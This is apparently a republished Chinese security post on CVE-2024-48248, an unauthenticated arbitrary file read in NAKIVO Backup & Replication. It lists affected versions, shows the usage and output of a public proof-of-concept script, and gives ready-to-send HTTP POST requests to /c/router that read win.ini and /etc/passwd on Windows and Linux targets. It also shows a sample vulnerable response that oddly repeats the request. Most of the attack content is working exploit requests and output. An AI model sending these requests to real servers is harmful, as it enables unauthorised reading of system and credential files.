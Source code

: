 #  nakivo-任意文件读取（CVE-2024-48248）   
爱坤  爱坤sec   2025-03-17 23:30  
  
### 漏洞验证获取地址在文章末尾  
  
  
受影响的版本：NAKIVO 的 10.11.3.86570 及以下版本  
  
使用方法：  
```
python3 watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py --url https://192.168.1.1:4443 --file "C:\\windows\\win.ini"
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|   
                                  \/          \/     \/                            

        watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py
        (*) Nakivo Unauthenticated Arbitrary File Read (CVE-2024-48248) POC by watchTowr

          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-48248]

[*] Targeting https://192.168.1.1:4443
[*] Attempting to read file 'C:\windows\win.ini'
[*] File Contents:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```  
  
原分析文章分析出处：  
```
https://labs.watchtowr.com/the-best-security-is-when-we-all-agree-to-keep-everything-secret-except-the-secrets-nakivo-backup-replication-cve-2024-48248/
```  
  
手动验证：  
  
发送如下数据包  
  
windows  
```
POST /c/router HTTP/1.1
Host: {{Hostname}
Content-Type: application/json
Connection: keep-alive
Content-Length: 121
{"action":"STPreLoadManagement","method":"getImageByPath","data":["C:/windows/win.ini"],"type":"rpc","tid":3980,"sid":""}
```  
  
linux  
```
POST /c/router HTTP/1.1
Host: {{Hostname}
Content-Type: application/json
Connection: keep-alive
Content-Length: 121
{"action":"STPreLoadManagement","method":"getImageByPath","data":["/etc/passwd"],"type":"rpc","tid":3980,"sid":""}
```  
  
  
若响应包为这种，则存在漏洞：  
```
HTTP/1.1 200 
```  
```
POST /c/router HTTP/1.1
Host: {{Hostname}
Content-Type: application/json
Connection: keep-alive
Content-Length: 121
{"action":"STPreLoadManagement","method":"getImageByPath","data":["C:/windows/win.ini"],"type":"rpc","tid":3980,"sid":""}
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Strict-Transport-Security: max-age=31536000; includeSubDomains
Cache-Control: max-age=0
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Content-Length: 466
Keep-Alive: timeout=60
Connection: keep-alive
{"action":"STPreLoadManagement","method":"getImageByPath","tid":"3980","type":"rpc","message":null,"where":null,"cause":null,"data":[59,32,102,111,114,32,49,54,45,98,105,116,32,97,112,112,32,115,117,112,112,111,114,116,13,10,91,102,111,110,116,115,93,13,10,91,101,120,116,101,110,115,105,111,110,115,93,13,10,91,109,99,105,32,101,120,116,101,110,115,105,111,110,115,93,13,10,91,102,105,108,101,115,93,13,10,91,77,97,105,108,93,13,10,77,65,80,73,61,49,13,10]}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pRXeQadBtYHwrZnLASPlVYYP4Z6mVzxXZFIialV7jYEibyhodicfBoHRmor9xSPrBc48WMVhBiaxtqYwAyN8dPG6Sw/640?wx_fmt=png&from=appmsg "")  
  
